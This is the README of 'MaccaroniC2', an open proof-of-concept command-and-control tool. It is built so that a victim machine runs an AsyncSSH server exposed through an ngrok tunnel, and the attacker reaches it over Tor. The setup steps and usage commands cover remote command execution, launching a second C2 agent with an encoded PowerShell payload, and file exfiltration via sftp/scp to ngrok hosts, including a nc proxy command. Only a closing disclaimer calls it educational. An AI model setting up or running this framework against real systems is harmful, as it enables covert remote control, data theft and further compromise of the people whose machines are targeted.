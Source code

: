 # MaccaroniC2 - Empowering Command & Control using AsyncSSH

![](https://github.com/CalfCrusher/MaccaroniC2/blob/main/maccaroni.jpg)

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH` Python library which provides an asynchronous client and server implementation of the SSHv2 protocol and use `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs the AsyncSSH server and establishes a tunnel to the outside, ready to receive commands by the attacker.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by **AsyncSSH**, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient file exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, using `TOR` to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` file acts as an SSH server with SFTP and SCP enabled, which will be run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send commands to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5h://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell.exe -e ABJe...dhYte"`
  
___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P 18499 -i id_rsa ddddd@0.tcp.ngrok.io`
  
`scp -i id_rsa source_file ddddd@0.tcp.ngrok.io:destination_path`
  
___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool**
  
